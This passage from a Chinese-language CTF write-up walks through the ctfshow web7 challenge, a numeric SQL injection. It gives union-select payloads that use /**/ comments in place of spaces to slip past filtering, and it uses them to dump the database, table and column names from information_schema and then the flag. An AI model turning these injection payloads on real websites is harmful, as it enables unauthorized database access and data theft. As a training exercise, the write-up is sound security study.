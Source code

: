 拿到flag



## ctfshow web7

![image-20240509213530859](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240509213530859.png)

是一个文章网站，点击发现是数值型注入

`[ctf.show_web7](https://d1620f9b-ac9c-4066-b99b-58786467ebb2.challenge.ctf.show/index.php?id=2)`

`[ctf.show_web7](https://d1620f9b-ac9c-4066-b99b-58786467ebb2.challenge.ctf.show/index.php?id=1/**/and/**/1=2)`

![image-20240509213819752](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240509213819752.png)

空显示

`?id=-1/**/union/**/select/**/1,2,3#`

查看回显点



![image-20240509213945995](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240509213945995.png)

`?id=-1/**/union/**/select/**/1,database(),3#`

爆库名



![image-20240509214056555](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240509214056555.png)



`-1/**/union/**/select/**/1,(select/**/group_concat(table_name)from/**/information_schema.tables/**/where/**/table_schema="web7"),3#`

![image-20240509215001873](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240509215001873.png)

爆表名

`-1/**/union/**/select/**/1,(select/**/group_concat(column_name)from/**/information_schema.columns/**/where/**/table_schema="web7"/**/and/**/table_name="flag"),3`

![image-20240509215317902](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240509215317902.png)

`-1/**/union/**/select/**/1,(select/**/group_concat(flag)from/**/flag),3`

![image-20240509215512365](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240509215512365.png)

拿到flag

## ctfshow web8

是一个文章网站
